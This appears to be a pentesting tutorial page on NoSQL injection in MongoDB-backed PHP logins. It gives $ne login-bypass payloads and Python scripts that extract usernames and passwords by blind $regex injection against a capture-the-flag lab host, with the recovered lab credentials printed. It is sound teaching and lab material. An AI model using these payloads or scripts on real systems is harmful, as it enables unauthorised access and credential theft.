```yaml
---
description: NoSQL injection attacks can be especially dangerous because code
---
```


# NoSQL Injection

## Introduction

NoSQL injection vulnerabilities allow attackers to inject code into commands for databases that don’t use SQL queries, such as MongoDB. NoSQL injection attacks can be especially dangerous because code is injected and executed on the server in the language of the web application, potentially allowing arbitrary code execution.

### Simple MongoDB Injection

For a basic authentication bypass, the attacker can try to enter MongoDB operators in field values, for example `$eq` (equals), `$ne` (not equal to) or `$gt` (greater than). Here’s an unsafe way to build a database query in a PHP application, with the parameter values taken directly from a form:

```
$query = array("user" => $_POST["username"], "password" => 
    $_POST["password"]);
```

If this query is then used to check login credentials, the attacker can abuse PHP’s built-in associative array processing to inject a MongoDB query that always returns true and bypass the authentication process. This may be as simple as sending the following POST request:

```
username[$ne]=1&password[$ne]=1
```

PHP will translate this into an array of arrays:

```
array("username" => array("$ne" => 1), "password" => 
    array("$ne" => 1));
```

When sent as a MongoDB query to a user store, this will find all users where the user name and password are not equal to 1, which is highly likely to be true and may allow the attacker to bypass authentication.

## Login Bypass (PHP)

Injecting the `$ne` :

```
#Find some one where username not equals to "" and password not equals to ""
username[$ne]=&password[$ne]=&login=login
```

### Dumping Database (PHP)

First instead of `$ne` we are going to use `$regex` in order to discover character by character.

#### Get all Usernames

First we are going to see al type of characters used in the usernames.

```
import sys, os, requests, codecs
import string

s = requests.Session()


for char in string.ascii_lowercase:

	regex = '{}.*'.format(char)
	data_post = {
		"username[$regex]" : regex,
		"password[$ne]" : "password",
		"login" : "login"
	}
	resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
	if resp.status_code == 302:
		print("Valid letter: " + char)
```

{% hint style="info" %}
**Regex:** {}.\*
{% endhint %}

```
❯ python3 exploit.py
Valid letter: a
Valid letter: d
Valid letter: g
Valid letter: i
Valid letter: m
Valid letter: n
Valid letter: o
```

Secondly, we are going to check which one goes at firs position:

```
import sys, os, requests, codecs
import string

s = requests.Session()

valid_letters = ['a', 'd', 'g', 'i', 'm', 'n', 'o']

for char in valid_letters:

	regex = '^{}.*'.format(char)
	data_post = {
		"username[$regex]" : regex,
		"password[$ne]" : "password",
		"login" : "login"
	}
	resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
	if resp.status_code == 302:
		print("Starts with: " + char)
```

{% hint style="info" %}
**Regex:** ^{}.\* ^ Indicates starts with
{% endhint %}

```
❯ python3 exploit.py
Starts with: a
Starts with: m
```

Finally we are going to loop until fails all characters used.

```
import sys, os, requests, codecs
import string

s = requests.Session()

def nextLetter(word):
	valid_letters = ['a', 'd', 'g', 'i', 'm', 'n', 'o']
	for char in valid_letters:

		regex = '^{}.*'.format(word+char)
		data_post = {
			"username[$regex]" : regex,
			"password[$ne]" : "password",
			"login" : "login"
		}
		resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
		if resp.status_code == 302:
			return char
	return None

def getUser(start):

	name = start
	while True:
		l = nextLetter(name)
		if l is None:
			break;
		else:
			name += l
	return name

startsWith = ['a', 'm']
for char in startsWith:
	print('Username: ' + getUser(char))
```

```
❯ python3 enum_letters.py
Username: admin
Username: mango
```

#### Get Passwords:

Same as users but remember to change the `$regex` of the user to `$ne` and the other way with password.

```
import sys, os, requests, codecs
import string

s = requests.Session()

def nextLetter(user, word):

	special_char = ['^','*', '$', '|', '.','\\' ,'+','?']
	for char in string.printable:
		if char in special_char:
			continue;
		regex = '^{}.*'.format(word+char)
		data_post = {
			"username" : user,
			"password[$regex]" : regex,
			"login" : "login"
		}
		resp = s.post("http://staging-order.mango.htb/index.php", data=data_post, verify=False,  allow_redirects=False)
		if resp.status_code == 302:
			return char
	return None

def getPass(user):

	passw = ""
	while True:
		l = nextLetter(user, passw)
		if l is None:
			break;
		else:
			passw += l
	return passw

users = ['admin', 'mango']
for user in users:
	print('Username: ' + user + ' Password: ' + getPass(user))
```

```
❯ python3 exploit.py
Username: admin Password: t9KcS3>!0B#2
Username: mango Password: h3mXK8RhU~f{]f5H
```

{% hint style="warning" %}
**Remember:** Escape characters that could lead to problems with a regex.
{% endhint %}
